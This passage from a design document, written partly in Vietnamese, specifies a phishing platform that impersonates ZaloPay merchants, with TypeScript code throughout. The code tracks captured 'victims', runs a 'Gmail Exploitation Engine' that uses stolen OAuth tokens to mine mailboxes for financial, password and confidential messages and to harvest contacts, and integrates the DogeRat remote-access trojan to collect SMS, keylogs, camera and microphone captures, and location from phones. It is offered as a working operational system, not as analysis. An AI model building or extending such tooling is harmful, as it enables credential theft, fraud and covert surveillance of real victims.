        const activeCampaigns = await this.prisma.campaign.count({
            where: {
                status: 'active',
                ...campaignWhere
            }
        });
        
        // Recent activity (last 24 hours)
        const last24h = new Date(Date.now() - 24 * 60 * 60 * 1000);
        const recentCaptures = await this.prisma.victim.count({
            where: {
                ...whereClause,
                capture_timestamp: {
                    gte: last24h
                }
            }
        });
        
        return {
            total_victims: totalVictims,
            valid_credentials: validCredentials,
            success_rate: totalVictims > 0 ? validCredentials / totalVictims : 0,
            high_value_targets: highValueTargets,
            business_accounts: businessAccounts,
            active_campaigns: activeCampaigns,
            recent_captures_24h: recentCaptures,
            capture_rate_trend: await this.calculateCaptureTrend()
        };
    }
}
```

### 4.2 Victim Management Interface
**Advanced Victim Management System:**
```typescript
import { PrismaClient } from '@prisma/client';

class VictimManagementSystem {
    private searchEngine: VictimSearchEngine;
    private exportEngine: DataExportEngine;
    private bulkOperations: BulkOperationManager;
    private prisma: PrismaClient;

    constructor(prisma: PrismaClient) {
        this.prisma = prisma;
        this.searchEngine = new VictimSearchEngine(prisma);
        this.exportEngine = new DataExportEngine(prisma);
        this.bulkOperations = new BulkOperationManager(prisma);
    }

    async getVictimList(adminSession: AdminSession, filters?: VictimFilters, pagination?: Pagination): Promise<VictimListResult> {
        /** Advanced victim list với filtering và pagination */
        
        // Build search query
        const searchQuery = await this.searchEngine.buildQuery(
            filters || {},
            adminSession.permissions
        );
        
        // Execute PostgreSQL query with JOINs via Prisma
        const whereClause = this.buildWhereClause(searchQuery);
        const sortClause = this.buildSortCriteria(filters?.sort || 'capture_timestamp_desc');
        const limitVal = pagination?.limit || 50;
        const offsetVal = pagination?.skip || 0;
        
        const victimsData = await this.prisma.victim.findMany({
            where: whereClause,
            include: {
                oauth_tokens: {
                    select: {
                        id: true,
                        provider: true,
                        token_status: true
                    }
                },
                campaign: {
                    select: {
                        id: true,
                        name: true,
                        code: true
                    }
                },
                gmail_access_logs: {
                    select: {
                        id: true,
                        created_at: true
                    },
                    orderBy: {
                        created_at: 'desc'
                    },
                    take: 1
                }
            },
            orderBy: sortClause,
            take: limitVal,
            skip: offsetVal
        });
        
        // Calculate total count for pagination
        const totalCount = await this.prisma.victim.count({
            where: whereClause
        });
        
        // Enrich với additional data
        const enrichedVictims = await this.enrichVictimData(victimsData);
        
        return {
            victims: enrichedVictims,
            total_count: totalCount,
            current_page: pagination?.page || 1,
            per_page: pagination?.limit || 50,
            filters_applied: filters,
            available_actions: await this.getAvailableActions(adminSession)
        };
    }

    async enrichVictimData(victimsData: Victim[]): Promise<EnrichedVictim[]> {
        /** Enrich victim data với additional intelligence */
        
        const enrichedVictims: EnrichedVictim[] = [];
        
        for (const victim of victimsData) {
            // Calculate intelligence score
            const intelligenceScore = await this.calculateIntelligenceScore(victim);
            
            // Determine exploitation opportunities
            const exploitationOpportunities = await this.identifyExploitationOpportunities(victim);
            
            // Enhance victim record
            const enrichedVictim: EnrichedVictim = {
                ...victim,
                intelligence_score: intelligenceScore,
                exploitation_opportunities: exploitationOpportunities,
                risk_assessment: await this.assessVictimRisk(victim),
                recommended_actions: await this.recommendVictimActions(victim)
            };
            
            enrichedVictims.push(enrichedVictim);
        }
        
        return enrichedVictims;
    }
}
```

## Phase 5: Gmail Exploitation & Intelligence Extraction

### 5.1 OAuth-Based Gmail Access Workflow


**Gmail Exploitation Engine:**
```typescript
import { google } from 'googleapis';
import { PrismaClient } from '@prisma/client';

class GmailExploitationEngine {
    private gmailClient: typeof google.gmail;
    private dataExtractor: IntelligentDataExtractor;
    private analysisEngine: EmailAnalysisEngine;
    private exportManager: SecureExportManager;
    private prisma: PrismaClient;

    constructor(prisma: PrismaClient) {
        this.prisma = prisma;
        this.dataExtractor = new IntelligentDataExtractor();
        this.analysisEngine = new EmailAnalysisEngine();
        this.exportManager = new SecureExportManager(prisma);
    }

    async initiateGmailExploitation(victimId: string, adminSession: AdminSession, extractionConfig: ExtractionConfig): Promise<ExploitationSession> {
        /** Comprehensive Gmail exploitation workflow */
        
        const exploitationSession: ExploitationSession = {
            session_id: this.generateExploitationSessionId(),
            victim_id: victimId,
            admin_id: adminSession.admin_id,
            start_time: new Date(),
            extraction_config: extractionConfig,
            results: {
                emails: [],
                contacts: [],
                attachments: [],
                calendar_events: [],
                intelligence_summary: {}
            }
        };
        
        try {
            // Establish Gmail access
            const gmailService = await this.establishGmailAccess(victimId, adminSession);
            
            // Execute extraction phases
            if (extractionConfig.extract_emails !== false) {
                const emailResults = await this.extractEmailIntelligence(
                    gmailService, extractionConfig.email_config || {}
                );
                exploitationSession.results.emails = emailResults;
            }
            
            if (extractionConfig.extract_contacts !== false) {
                const contactResults = await this.extractContactIntelligence(
                    gmailService, extractionConfig.contact_config || {}
                );
                exploitationSession.results.contacts = contactResults;
            }
            
            if (extractionConfig.extract_attachments !== false) {
                const attachmentResults = await this.extractAttachmentIntelligence(
                    gmailService, extractionConfig.attachment_config || {}
                );
                exploitationSession.results.attachments = attachmentResults;
            }
            
            if (extractionConfig.extract_calendar) {
                const calendarResults = await this.extractCalendarIntelligence(
                    gmailService, extractionConfig.calendar_config || {}
                );
                exploitationSession.results.calendar_events = calendarResults;
            }
            
            // Analyze extracted intelligence
            const intelligenceAnalysis = await this.analyzeExtractedIntelligence(
                exploitationSession.results
            );
            exploitationSession.results.intelligence_summary = intelligenceAnalysis;
            
            // Store exploitation results
            await this.storeExploitationResults(exploitationSession);
            
            // Generate export packages
            const exportPackages = await this.generateExportPackages(
                exploitationSession, extractionConfig.export_formats || ['csv', 'json']
            );
            
            exploitationSession.export_packages = exportPackages;
            exploitationSession.end_time = new Date();
            exploitationSession.success = true;
            
        } catch (error) {
            exploitationSession.error = error instanceof Error ? error.message : String(error);
            exploitationSession.success = false;
            exploitationSession.end_time = new Date();
            
            // Log exploitation failure
            await this.logExploitationFailure(victimId, adminSession.admin_id, error instanceof Error ? error.message : String(error));
        } finally {
            // Log exploitation attempt
            await this.logGmailExploitation(exploitationSession);
        }
        
        return exploitationSession;
    }

    async extractEmailIntelligence(gmailService: typeof google.gmail, emailConfig: EmailConfig): Promise<Email[]> {
        /** Advanced email intelligence extraction */
        
        // Define intelligent search queries
        const intelligenceQueries = [
            // Business intelligence
            'subject:contract OR subject:agreement OR subject:proposal',
            'subject:invoice OR subject:payment OR subject:billing',
            'subject:confidential OR subject:private OR subject:internal',
            
            // Financial intelligence
            'from:bank OR from:paypal OR from:financial',
            'subject:loan OR subject:credit OR subject:investment',
            
            // Security intelligence  
            'subject:password OR subject:reset OR subject:verification',
            'subject:security OR subject:alert OR subject:suspicious',
            
            // Corporate intelligence
            'subject:board OR subject:executive OR subject:management',
            'subject:merger OR subject:acquisition OR subject:partnership'
        ];
        
        const extractedEmails: Email[] = [];
        
        for (const query of intelligenceQueries) {
            try {
                // Execute search query
                const searchResults = await gmailService.users.messages.list({
                    userId: 'me',
                    q: query,
                    maxResults: emailConfig.max_per_query || 100
                });
                
                // Process each email
                if (searchResults.data.messages) {
                    for (const messageRef of searchResults.data.messages) {
                        const message = await gmailService.users.messages.get({
                            userId: 'me',
                            id: messageRef.id!,
                            format: 'full'
                        });
                        
                        // Analyze email content
                        const emailAnalysis = await this.analysisEngine.analyzeEmail(message.data);
                        
                        // Only store high-value emails
                        if (emailAnalysis.intelligence_value > 0.6) {
                            const emailData: Email = {
                                message_id: message.data.id!,
                                thread_id: message.data.threadId!,
                                subject: this.extractHeader(message.data, 'Subject'),
                                from: this.extractHeader(message.data, 'From'),
                                to: this.extractHeader(message.data, 'To'),
                                cc: this.extractHeader(message.data, 'Cc'),
                                date: this.extractHeader(message.data, 'Date'),
                                body_text: this.extractBodyText(message.data),
                                body_html: this.extractBodyHtml(message.data),
                                attachments: this.extractAttachmentMetadata(message.data),
                                labels: message.data.labelIds || [],
                                analysis: emailAnalysis,
                                extraction_query: query
                            };
                            
                            extractedEmails.push(emailData);
                        }
                    }
                }
                
                // Rate limiting
                await new Promise(resolve => setTimeout(resolve, Math.random() * 2000 + 1000));
                
            } catch (error) {
                console.warn(`Email extraction failed for query '${query}':`, error);
            }
        }
        
        // Remove duplicates và sort by intelligence value
        const uniqueEmails = this.removeDuplicateEmails(extractedEmails);
        const sortedEmails = uniqueEmails.sort(
            (a, b) => b.analysis.intelligence_value - a.analysis.intelligence_value
        );
        
        return sortedEmails.slice(0, emailConfig.max_total_emails || 500);
    }
    
    async extractContactIntelligence(gmailService: typeof google.gmail, contactConfig: ContactConfig): Promise<Contact[]> {
        /** Comprehensive contact intelligence extraction */
        
        try {
            // Use People API to extract contacts
            const peopleService = google.people({ version: 'v1', auth: gmailService.auth });
            
            // Get all contacts
            const contactsResult = await peopleService.people.connections.list({
                resourceName: 'people/me',
                pageSize: 2000,
                personFields: 'names,emailAddresses,phoneNumbers,organizations,biographies,addresses,relations'
            });
            
            const extractedContacts: Contact[] = [];
            
            if (contactsResult.data.connections) {
                for (const person of contactsResult.data.connections) {
                    // Extract contact information
                    const contactData: Contact = {
                        resource_name: person.resourceName || '',
                        names: person.names || [],
                        email_addresses: person.emailAddresses || [],
                        phone_numbers: person.phoneNumbers || [],
                        organizations: person.organizations || [],
                        biographies: person.biographies || [],
                        addresses: person.addresses || [],
                        relations: person.relations || []
                    };
                    
                    // Analyze contact value
                    const contactAnalysis = await this.analyzeContactIntelligence(contactData);
                    contactData.analysis = contactAnalysis;
                    
                    extractedContacts.push(contactData);
                }
            }
            
            // Sort by intelligence value
            const sortedContacts = extractedContacts.sort(
                (a, b) => b.analysis.intelligence_value - a.analysis.intelligence_value
            );
            
            return sortedContacts;
            
        } catch (error) {
            console.error('Contact extraction failed:', error);
            return [];
        }
    }
    
    async analyzeExtractedIntelligence(extractionResults: ExtractionResults): Promise<IntelligenceSummary> {
        /** Comprehensive intelligence analysis của extracted data */
        
        const intelligenceSummary: IntelligenceSummary = {
            overall_intelligence_score: 0,
            business_intelligence: {
                corporate_emails: 0,
                financial_documents: 0,
                executive_communications: 0,
                confidential_content: 0
            },
            network_intelligence: {
                total_contacts: extractionResults.contacts?.length || 0,
                business_contacts: 0,
                executive_contacts: 0,
                high_value_relationships: 0
            },
            security_intelligence: {
                password_related_emails: 0,
                security_alerts: 0,
                account_information: 0
            },
            actionable_intelligence: [],
            recommendations: []
        };
        
        // Analyze emails
        if (extractionResults.emails) {
            for (const email of extractionResults.emails) {
                const emailAnalysis = email.analysis || {};
                
                if (emailAnalysis.business_content) {
                    intelligenceSummary.business_intelligence.corporate_emails++;
                }
                
                if (emailAnalysis.financial_content) {
                    intelligenceSummary.business_intelligence.financial_documents++;
                }
                
                if (emailAnalysis.executive_communication) {
                    intelligenceSummary.business_intelligence.executive_communications++;
                }
                
                if (emailAnalysis.confidential_content) {
                    intelligenceSummary.business_intelligence.confidential_content++;
                }
            }
        }
        
        // Analyze contacts
        if (extractionResults.contacts) {
            for (const contact of extractionResults.contacts) {
                const contactAnalysis = contact.analysis || {};
                
                if (contactAnalysis.business_contact) {
                    intelligenceSummary.network_intelligence.business_contacts++;
                }
                
                if (contactAnalysis.executive_level > 0.7) {
                    intelligenceSummary.network_intelligence.executive_contacts++;
                }
                
                if (contactAnalysis.intelligence_value > 0.8) {
                    intelligenceSummary.network_intelligence.high_value_relationships++;
                }
            }
        }
        
        // Generate actionable intelligence
        const actionableIntelligence = await this.generateActionableIntelligence(
            extractionResults, intelligenceSummary
        );
        intelligenceSummary.actionable_intelligence = actionableIntelligence;
        
        // Calculate overall intelligence score
        intelligenceSummary.overall_intelligence_score = await this.calculateOverallIntelligenceScore(
            intelligenceSummary
        );
        
        return intelligenceSummary;
    }
}
```

## Phase 6: DogeRat API Integration Workflow

### Overview
DogeRat API integration cho phép quản lý và điều khiển thiết bị từ xa (Android và iOS) thông qua web interface. Workflow này bao gồm device connection, real-time monitoring, action execution, và data collection.

### Workflow Sequence



### Implementation

```typescript
import { PrismaClient } from '@prisma/client';
import { Server } from 'socket.io';

class DogeRatAPIWorkflow {
    private deviceService: DeviceManagementService;
    private actionService: ActionExecutionService;
    private socketManager: SocketIOManager;
    private prisma: PrismaClient;
    private io: Server;

    constructor(prisma: PrismaClient, io: Server) {
        this.prisma = prisma;
        this.io = io;
        this.deviceService = new DeviceManagementService(prisma);
        this.actionService = new ActionExecutionService(prisma, io);
        this.socketManager = new SocketIOManager(io);
    }

    async handleDeviceConnection(socketId: string, deviceInfo: DeviceInfo): Promise<void> {
        /** Handle new device connection */
        
        // 1. Store device info in database
        const device = await this.deviceService.createOrUpdateDevice(socketId, deviceInfo);
        
        // 2. Broadcast to admin dashboard
        this.socketManager.emit('device-connected', {
            id: device.id,
            device_id: device.device_id,
            platform: device.platform,
            model: device.model,
            version: device.version,
            ip_address: device.ip_address,
            connected_at: device.connected_at,
            online: true
        });
        
        // 3. Log connection event
        await this.logDeviceConnection(device.id, deviceInfo);
    }

    async handleDeviceDisconnection(socketId: string): Promise<void> {
        /** Handle device disconnection */
        
        // 1. Update device status
        const device = await this.deviceService.getDeviceBySocketId(socketId);
        if (device) {
            await this.deviceService.updateDeviceStatus(device.id, 'offline');
            
            // 2. Broadcast to admin dashboard
            this.socketManager.emit('device-disconnected', {
                id: device.id,
                device_id: device.device_id,
                disconnected_at: new Date()
            });
            
            // 3. Log disconnection event
            await this.logDeviceDisconnection(device.id);
        }
    }

    async handleDeviceDataUpdate(socketId: string, data: DeviceData): Promise<void> {
        /** Handle device data updates */
        
        // 1. Get device
        const device = await this.deviceService.getDeviceBySocketId(socketId);
        if (!device) return;
        
        // 2. Store device data in database
        await this.deviceService.storeDeviceData(device.id, data);
        
        // 3. Broadcast to admin dashboard
        this.socketManager.emit('device-data-update', {
            device_id: device.id,
            data_type: data.type,
            data: data.payload,
            captured_at: new Date()
        });
        
        // 4. Update device activity summary
        await this.deviceService.updateActivitySummary(device.id, data);
    }

    async executeDeviceAction(deviceId: string, action: string, params?: object): Promise<ActionResult> {
        /** Execute action on device */
        
        // 1. Validate device connection
        const device = await this.deviceService.getDeviceById(deviceId);
        if (!device || !device.online) {
            throw new Error(`Device ${deviceId} is not connected`);
        }
        
        // 2. Execute action via Socket.IO
        const result = await this.actionService.executeAction(device.socket_id, action, params);
        
        // 3. Log action execution
        await this.logActionExecution(deviceId, action, params, result);
        
        // 4. Return result
        return result;
    }

    async getDeviceList(filters?: DeviceFilters): Promise<Device[]> {
        /** Get device list with optional filters */
        
        // 1. Query devices from database
        const devices = await this.deviceService.getAllDevices(filters);
        
        // 2. Check online status via Socket.IO
        const devicesWithStatus = devices.map(device => ({
            ...device,
            online: this.socketManager.isDeviceOnline(device.socket_id)
        }));
        
        // 3. Return device list
        return devicesWithStatus;
    }

    async getDeviceDetails(deviceId: string): Promise<DeviceDetails> {
        /** Get device details with all data */
        
        // 1. Get device info
        const device = await this.deviceService.getDeviceById(deviceId);
        if (!device) {
            throw new Error(`Device ${deviceId} not found`);
        }
        
        // 2. Get device data
        const deviceData = await this.deviceService.getDeviceData(deviceId);
        
        // 3. Check online status
        const online = this.socketManager.isDeviceOnline(device.socket_id);
        
        // 4. Return device details
        return {
            info: {
                ...device,
                online
            },
            data: deviceData
        };
    }
}
```

### Device Management Features

**Device Connection:**
- Real-time device connection via Socket.IO
- Device information storage in database
- Connection history tracking
- Online/offline status monitoring

**Device Data Collection:**
- Contacts collection
- SMS messages collection
- Call history collection
- Gallery images collection
- Camera captures (main and selfie)
- Screenshots collection
- Keylogger data collection
- Clipboard data collection
- Location data collection
- App list collection
- File system access

**Device Control Actions:**
- Send toast messages
- Vibrate device
- Send SMS
- Capture camera (main/selfie)
- Take screenshots
- Control keylogger (on/off)
- Access clipboard
- Open URLs
- Record microphone
- Get location
- Get SIM card information

## Phase 7: PWA Background Operations Workflow

### Overview
PWA background operations cho phép ứng dụng web chạy nền trên mobile devices, đảm bảo tất cả tính năng DogeRat API vẫn hoạt động bình thường khi ứng dụng chạy nền hoặc offline.

### Workflow Sequence



### Implementation

```typescript
class PWABackgroundWorkflow {
    private serviceWorkerRegistration: ServiceWorkerRegistration | null = null;
    private backgroundSyncManager: BackgroundSyncManager | null = null;
    private pushManager: PushManager | null = null;

    async initializePWA(): Promise<void> {
        /** Initialize PWA features */
        
        // 1. Register Service Worker
        await this.registerServiceWorker();
        
        // 2. Set up Background Sync
        await this.setupBackgroundSync();
        
        // 3. Set up Push Notifications
        await this.setupPushNotifications();
        
        // 4. Set up Install Prompt
        this.setupInstallPrompt();
    }

    async registerServiceWorker(): Promise<void> {
        /** Register Service Worker cho background operations */
        
        if ('serviceWorker' in navigator) {
            try {
                const registration = await navigator.serviceWorker.register('/sw.js', {
                    scope: '/'
                });
                
                this.serviceWorkerRegistration = registration;
                
                // Handle service worker updates
                registration.addEventListener('updatefound', () => {
                    const newWorker = registration.installing;
                    if (newWorker) {
                        newWorker.addEventListener('statechange', () => {
                            if (newWorker.state === 'installed' && navigator.serviceWorker.controller) {
                                // New service worker available
                                this.showUpdateNotification();
                            }
                        });
                    }
                });
                
            } catch (error) {
                console.error('Service Worker registration failed:', error);
            }
        }
    }

    async setupBackgroundSync(): Promise<void> {
        /** Set up Background Sync API cho background data sync */
        
        if ('serviceWorker' in navigator && 'sync' in ServiceWorkerRegistration.prototype) {
            const registration = await navigator.serviceWorker.ready;
            
            // Register background sync tags
            await registration.sync.register('sync-device-data');
            await registration.sync.register('sync-action-results');
            await registration.sync.register('sync-file-uploads');
            
            this.backgroundSyncManager = registration.sync;
        }
    }

    async syncDeviceDataInBackground(): Promise<void> {
        /** Sync device data khi app chạy nền */
        
        if (this.backgroundSyncManager) {
            await this.backgroundSyncManager.register('sync-device-data');
        }
    }

    async setupPushNotifications(): Promise<void> {
        /** Set up Push Notifications cho real-time alerts */
        
        if ('serviceWorker' in navigator && 'PushManager' in window) {
            const registration = await navigator.serviceWorker.ready;
            this.pushManager = registration.pushManager;
            
            // Request notification permission
            const permission = await Notification.requestPermission();
            
            if (permission === 'granted') {
                // Subscribe to push notifications
                const subscription = await this.pushManager.subscribe({
                    userVisibleOnly: true,
                    applicationServerKey: this.getVAPIDPublicKey()
                });
                
                // Send subscription to server
                await this.sendSubscriptionToServer(subscription);
            }
        }
    }

    setupInstallPrompt(): void {
        /** Set up PWA install prompt */
        
        let deferredPrompt: BeforeInstallPromptEvent | null = null;
        
        window.addEventListener('beforeinstallprompt', (e) => {
            e.preventDefault();
            deferredPrompt = e;
            this.showInstallButton();
        });
        
        // Handle install button click
        window.addEventListener('install-pwa', async () => {
            if (deferredPrompt) {
                deferredPrompt.prompt();
                const { outcome } = await deferredPrompt.userChoice;
                
                if (outcome === 'accepted') {
                    console.log('PWA installed successfully');
                    await this.onPWAInstalled();
                }
                
                deferredPrompt = null;
            }
        });
    }

    async onPWAInstalled(): Promise<void> {
        /** Handle PWA installation */
        
        // 1. Cache essential assets
        await this.cacheEssentialAssets();
        
        // 2. Set up background sync
        await this.setupBackgroundSync();
        
        // 3. Enable background features
        await this.enableBackgroundFeatures();
    }

    async enableBackgroundFeatures(): Promise<void> {
        /** Enable background features sau khi PWA installed */
        
        // 1. Start background sync
        await this.syncDeviceDataInBackground();
        
        // 2. Enable push notifications
        await this.setupPushNotifications();
        
        // 3. Set up periodic background sync
        await this.setupPeriodicBackgroundSync();
    }
}
```

### Service Worker Implementation

**Service Worker (`public/sw.js`):**
```javascript
// Service Worker for PWA background support
const CACHE_NAME = 'zalopay-merchant-v1';
const API_CACHE_NAME = 'zalopay-api-v1';

// Install event - Cache essential assets
self.addEventListener('install', (event) => {
    event.waitUntil(
        caches.open(CACHE_NAME).then((cache) => {
            return cache.addAll([
                '/',
                '/index.html',
                '/manifest.json',
                '/icons/icon-192x192.png',
                '/icons/icon-512x512.png'
            ]);
        })
    );
});

// Fetch event - Network-first strategy for API, Cache-first for assets
self.addEventListener('fetch', (event) => {
    const url = new URL(event.request.url);
    
    // API calls - Network-first strategy
    if (url.pathname.startsWith('/api/')) {
        event.respondWith(
            fetch(event.request)
                .then((response) => {
                    // Cache successful responses
                    if (response.ok) {
                        const responseClone = response.clone();
                        caches.open(API_CACHE_NAME).then((cache) => {
                            cache.put(event.request, responseClone);
                        });
                    }
                    return response;
                })
                .catch(() => {
                    // Fallback to cache if network fails
                    return caches.match(event.request);
                })
        );
    } else {
        // Static assets - Cache-first strategy
        event.respondWith(
            caches.match(event.request)
                .then((response) => {
                    return response || fetch(event.request);
                })
        );
    }
});

// Background Sync event - Sync device data
self.addEventListener('sync', (event) => {
    if (event.tag === 'sync-device-data') {
        event.waitUntil(syncDevicesFromAPI());
    }
    
    if (event.tag === 'sync-action-results') {
        event.waitUntil(syncActionResultsFromAPI());
    }
    
    if (event.tag === 'sync-file-uploads') {
        event.waitUntil(syncFileUploadsFromAPI());
    }
});

// Push notification event
self.addEventListener('push', (event) => {
    const data = event.data.json();
    
    const options = {
        body: data.body,
        icon: '/icons/icon-192x192.png',
        badge: '/icons/badge-72x72.png',
        tag: data.tag,
        data: data.data
    };
    
    event.waitUntil(
        self.registration.showNotification(data.title, options)
    );
});

// Notification click event
self.addEventListener('notificationclick', (event) => {
    event.notification.close();
    
    event.waitUntil(
        clients.openWindow(event.notification.data.url || '/')
    );
});

// Helper functions
async function syncDevicesFromAPI() {
    try {
        const response = await fetch('/api/v1/devices');
        const devices = await response.json();
        
        // Store in IndexedDB for offline access
        await storeDevicesInIndexedDB(devices.data);
        
        // Broadcast to clients
        const clients = await self.clients.matchAll();
        clients.forEach((client) => {
            client.postMessage({
                type: 'devices-synced',
                data: devices.data
            });
        });
    } catch (error) {
        console.error('Background sync failed:', error);
    }
}
```

### PWA Features

**Web App Manifest:**
- App metadata configuration
- Icons configuration
- Shortcuts configuration
- Display mode (standalone)
- Theme color configuration

**Service Worker:**
- Background script cho offline support
- Background sync cho data synchronization
- Push notifications cho real-time alerts
- Cache strategies cho performance optimization

**Background Operations:**
- Device data sync trong background
- Action execution sync trong background
- File upload sync trong background
- Socket.IO connection trong background
- DogeRat API calls trong background

**Integration with DogeRat API:**
- Service Worker có thể gọi DogeRat API endpoints trong background
- Background sync device data từ DogeRat API
- Execute actions trong background
- Receive real-time updates via Socket.IO trong background
- URL của DogeRat API endpoints sử dụng cùng URL với web app

## Performance Metrics & Monitoring

### Real-Time System Monitoring
```typescript
import { PrismaClient } from '@prisma/client';
import { Server } from 'socket.io';

class SystemPerformanceMonitor {
    private metricsCollector: MetricsCollector;
    private alertManager: AlertManager;
    private dashboardUpdater: DashboardUpdater;
    private prisma: PrismaClient;

    constructor(prisma: PrismaClient, io: Server) {
        this.prisma = prisma;
        this.metricsCollector = new MetricsCollector(prisma);
        this.alertManager = new AlertManager(prisma);
        this.dashboardUpdater = new DashboardUpdater(io);
    }

    async monitorSystemPerformance(): Promise<void> {
        /** Continuous system performance monitoring */
        
        while (true) {
            try {
                // Collect system metrics
                const systemMetrics = await this.collectSystemMetrics();
                
                // Analyze performance
                const performanceAnalysis = await this.analyzePerformance(systemMetrics);
                
                // Check for alerts
                const alerts = await this.checkPerformanceAlerts(performanceAnalysis);
                
                // Update dashboard
                await this.dashboardUpdater.updatePerformanceMetrics(
                    systemMetrics, performanceAnalysis
                );
                
                // Send alerts if necessary
                if (alerts.length > 0) {
                    await this.alertManager.sendAlerts(alerts);
                }
                
                await new Promise(resolve => setTimeout(resolve, 30000)); // Monitor every 30 seconds
                
            } catch (error) {
                console.error('Performance monitoring error:', error);
                await new Promise(resolve => setTimeout(resolve, 60000)); // Backoff on error
            }
        }
    }

    async collectSystemMetrics(): Promise<SystemMetrics> {
        /** Collect comprehensive system metrics */
        
        return {
            timestamp: new Date(),
            victim_metrics: {
                total_active_sessions: await this.countActiveSessions(),
                capture_rate_per_hour: await this.calculateHourlyCaptureRate(),
                validation_queue_size: await this.getValidationQueueSize(),
                success_rate_24h: await this.calculate24hSuccessRate()
            },
            admin_metrics: {
                active_admin_sessions: await this.countActiveAdminSessions(),
                gmail_exploitations_active: await this.countActiveGmailSessions()
            },
            system_metrics: {
                cpu_usage: await this.getCpuUsage(),
                memory_usage: await this.getMemoryUsage(),
                disk_usage: await this.getDiskUsage(),
                network_throughput: await this.getNetworkMetrics(),
                database_performance: await this.getDatabaseMetrics()
            },
            proxy_metrics: {
                total_proxies: await this.countTotalProxies(),
                healthy_proxies: await this.countHealthyProxies(),
                proxy_success_rate: await this.calculateProxySuccessRate(),
                average_response_time: await this.calculateProxyResponseTime()
            }
        };
    }
}
```
```

Tài liệu này cung cấp workflow hoàn chỉnh và chi tiết của ZaloPay Merchant Phishing Platform, từ initial victim contact đến comprehensive intelligence exploitation. Mỗi phase được thiết kế để tối ưu hiệu suất, maintain operational security, và provide comprehensive administrative control.